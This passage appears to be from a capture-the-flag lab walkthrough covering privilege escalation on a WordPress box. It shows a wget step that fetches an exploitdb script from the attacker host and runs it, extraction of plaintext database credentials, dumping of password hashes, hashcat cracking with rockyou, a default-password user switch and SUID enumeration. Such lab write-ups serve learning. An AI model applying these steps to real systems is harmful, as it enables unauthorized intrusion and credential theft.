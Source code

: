 ```
cp /usr/share/exploitdb/exploits/multiple/local/49521.py exploit.py
python -m http.server
```

On the remote machine:

```
wget http://<HOST MACHINE IP>:8000/exploit.py
python3 exploit.py
```

There's some error in the code, which isn't very verbose. I think I'll move on for now. A lot of other options are written in C, which isn't available in our situation. Looking through the `linpeas.out` I notice it found credentials for the `Wordpress` database used on the website:

```
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'sup3r_s3cr3t');
define('DB_HOST', 'localhost');
```

Let's try to use it to log into mysql database:

```
mysql -u root -p wordpress -h localhost
```

Then enter password and we're in:

```
SHOW DATABASES;
USE wordpress;
show tables;
SELECT * FROM wp_users;
```

As we can see there is a password hash for `j@m3s`. Putting that hash through [hashes.com](http://hashes.com), it shows it's a Wordpress MD5. Let's try it with `hashcat` and `rockyou.txt`:

```
hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt
```

_<sup>Assisted by [write-up](https://cyberarri.com/2024/03/17/blogger-pg-play-writeup/):</sup>_ This didn't have any results. Linpeas has also found a user named `vagrant` on the remote machine. After google searching it, it seems to me that vagrant is a tool that helps with creating virtual machines. After watching one of the walkthroughs it became apparent that `vagrant` is a default password for user `vagrant` in most cases. 

```
su vagrant
```

Now that we're this new user we can check SUID binaries for this user:

```
find / -perm /4000 2>/dev/null
```
